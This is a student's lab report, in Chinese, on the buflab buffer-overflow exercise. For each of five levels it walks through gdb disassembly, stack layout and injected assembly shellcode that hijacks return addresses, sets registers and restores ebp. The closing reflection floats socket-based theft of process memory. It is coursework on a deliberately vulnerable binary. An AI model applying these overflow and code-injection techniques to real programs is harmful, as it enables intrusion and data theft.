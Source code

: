 # buflab实验报告
***

## 实验原理

### Level0

#### 思路：

* test函数调用getbuf()函数时，先将返回地址压入栈中，再将eip指向getbuf()函数首句指令的地址
* 找到返回地址的地址，并将该地址的值修改成为smoke()函数首句指令的地址

#### 步骤：

* ubuntu16.04系统环境下运行gdb

```c
//加载可执行文件
>>> file bufbomb
//反编译smoke函数，拿到起始地址,为0x08048b04
>>> disassem smoke

>>> 0x08048b04 <+0>:	push   %ebp
    0x08048b05 <+1>:	mov    %esp,%ebp
    0x08048b07 <+3>:	sub    $0x18,%esp
    0x08048b0a <+6>:	movl   $0x804a5b0,(%esp)
    0x08048b11 <+13>:	call   0x8048900 <puts@plt>
    0x08048b16 <+18>:	movl   $0x0,(%esp)
    0x08048b1d <+25>:	call   0x804942e <validate>
    0x08048b22 <+30>:	movl   $0x0,(%esp)
    0x08048b29 <+37>:	call   0x8048920 <exit@plt>

//反编译getbuf函数，观察其栈帧结构
>>> disassem getbuf

>>> 0x08049284 <+0>:	push   %ebp
    0x08049285 <+1>:	mov    %esp,%ebp
    0x08049287 <+3>:	sub    $0x38,%esp
    0x0804928a <+6>:	lea    -0x28(%ebp),%eax
    0x0804928d <+9>:	mov    %eax,(%esp)
    0x08049290 <+12>:	call   0x8048d66 <Gets>
    0x08049295 <+17>:	mov    $0x1,%eax
    0x0804929a <+22>:	leave  
    0x0804929b <+23>:	ret 

//打断点并监测中断时的寄存器值，拿到不同情况下的ebp和eip
>>> break getbuf
>>> run -u 2016013239
>>> -c
>>> info integers
>>> -c
>>> info integers


```

* getbuf函数中，eax指向char buf[32]的起始地址
* eax与旧ebp的存储地址相差 2 * 16 + 8 = 40个字节
* 旧ebp使用4个字节存储，再上方即为返回地址

#### 答案（注意使用小端存储）
40个占位字节（非结束符）+ test的ebp + smoke的返回地址

***

### Level1

#### 思路：
* 与level0大致相同，但要传参数，故需要将溢出覆盖到参数位置上
* 在正常调用fizz函数时，第一个参数的位置为ebp+8

#### 答案：
40个占位字节（非结束符）+ test的ebp + smoke的返回地址 + 4个占位字节 + cookie的值

*** 

### level2

#### 思路：
* 观察反汇编代码，得到缓冲区入口地址和全局变量的地址
* 将getbuf()的返回地址指向缓冲区的起始地址
* 函数返回后，会先执行缓冲区中注入的可执行的机器指令（精心设计）
* 执行目的指令(修改global)后，push bang()函数的起始地址，再调用ret指令，使eip指向bang()函数，跳转完成

```c
//juice.s
movl $0x5d434ea2,%eax
movl %eax,0x804e10c
pushl $0x08048b82
ret
```
```c
//将汇编代码写进juice.s文件中，编译得到可执行文件
>>> gcc -m32 -c juice.s
//反汇编查看机器指令
>>> objdump -d juice.o
```

####答案：
反编译得到的机器指令 + 占位字节 + 返回地址(缓冲区地址）

***
### level3
#### 思路：
* 向缓冲区注入代码修改返回寄存器eax的值，让其等于cookie，修改ebp使其等于test函数运行时的ebp
* 观察test()函数，得到调用getbuf()函数的下一行指令的地址
* 将地址压栈，再ret

```c
//test函数
0x08048be0 <+0>:	push   %ebp
...
0x08048bee <+14>:	call   0x8049284 <getbuf>
0x08048bf3 <+19>:	mov    %eax,-0xc(%ebp)
...
0x08048c28 <+72>:	mov    %eax,(%esp)
```
```c
//juice.s
movl $0x55683be0,%ebp
movl $0x5d434ea2,%eax
pushl $0x08048bf3
ret
```
#### 答案：
反编译得到的机器指令 + 占位字节 + 返回地址(缓冲区地址）

***
### level4
#### 思路：
* 需要调用5次getbufn()函数，且必须准确返回到testn()函数中
* 虽然写字符串会覆盖掉旧的ebp，使得getbufn结束跳转到攻击代码时ebp的值不能正常恢复
* 在getbufn的最后，esp已经被正常恢复到testn调用getbufn之前的状态
* 而testn中，esp = ebp - 0x28，凭借此关系恢复ebp

```c
//juice.s
leal 0x28(%esp),%ebp
movl $0x5d434ea2,%eax
pushl $0x08048c67
ret
```
#### 答案：
占位nop指令 + 反编译得到的机器指令 （共计528字节 = 0x208 + 8）

***

## 实验感想
* 在IA32汇编指令中立即数操作和指针数操作不同
	* mov 0x12345678,%eax代表将该地址的值赋给eax
	* mov $0x12345678,%eax代表将值本身赋给eax
	* 我中了这个坑

* 为提高实验效率，应当先打印所有相关函数的反汇编结果以及断点运行下不同状态的寄存器的值，记录关键信息

* 本次实验让我对缓冲区溢出理解更加深刻，我也想到了更多神奇的溢出区攻击方法，以后编程中，需要加以防范：

	1、注入死循环的机器指令  
	2、一个缓冲区漏洞长度有限，可否通过建立一个socket，不断向外发送已经读取的进程的数据区，代码区，实现全偷盗

